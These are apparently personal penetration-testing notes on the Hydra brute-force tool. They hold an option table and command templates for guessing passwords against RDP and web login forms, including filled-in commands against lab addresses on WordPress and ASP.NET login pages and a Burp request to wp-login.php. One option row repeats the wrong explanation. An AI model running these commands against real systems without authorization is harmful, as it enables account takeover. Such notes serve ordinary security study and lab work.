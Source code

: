 # Hydra

| Option            | Explanation                                                   |
| ----------------- | ------------------------------------------------------------- |
| `-l username`     | Provide the login name                                        |
| `-P WordList.txt` | Specify the password list to use                              |
| `server service`  | Set the server address and service to attack                  |
| `-s PORT`         | Set the server address and service to attack                  |
| `-V` or `-vV`     | Show the username and password combinations being tried       |
| `-d`              | Display debugging output if the verbose output is not helping | 

| Command                                                                                                                                         | Description                                                                                                                                                        |
| ----------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `hydra -P <wordlist> -v <ip> <protocol>`                                                                                                        | Brute force against a protocol of your choice                                                                                                                      |
| `hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>`                                                                  | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| `hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>`                                                                                       | Attack a Windows Remote Desktop with a password list.                                                                                                              |
| `hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' ` | Craft a more specific request for Hydra to brute force.                                                                                                            | 

Craft a more specific request for Hydra to brute force.

```shell
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.13.215 http-form-post "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE=Q3C6t5UR5WbecqI6RxFVaHu2Jtr1TdsBm55dod6%2BSIHxT0kxMBXn8wPbUnML9Vy9uRcSdloliGhTiMXdg3L7dnVvby02BPayOuD6c2LVg%2FU1c1yfSmFi5O6NlaTJYr68DyAXNg6D0j2asLCrpbH%2FWtzIy%2BZc3SUPCjeyLjkOGGAvF%2BTu&__EVENTVALIDATION=v4fE3cbsejLdoruZ%2FnmnsQwMup0S0RVxnZgjAleWBCxzueQe6GQdUCeTG2i7uhPOvsZLXXydTOvEA2CVgd1vzxHIeYpzSSUxXjRSmXxYMBjDiqZ%2BE3y8DMbAC4KwudESlYVM2xBlpPHOe5utRfzqUDFKO5Df4kWeOvLVLRLBuTxZAlxu&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" 
```

WordPress - Burp
```php
POST /wp-login.php HTTP/1.1

Host: 10.10.114.27

log=§admin§&pwd=§admin§&wp-submit=§Log+In§&redirect_to=§https%3A%2F%2F10.10.114.27%2Fwp-admin%2F§&testcookie=§1§
```

WordPress - Hydra input username
```shell
hydra -L fsocity.dic -p test 10.10.114.27 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 30
```

WordPress - Hydra input username
```shell

```


#tools #hydra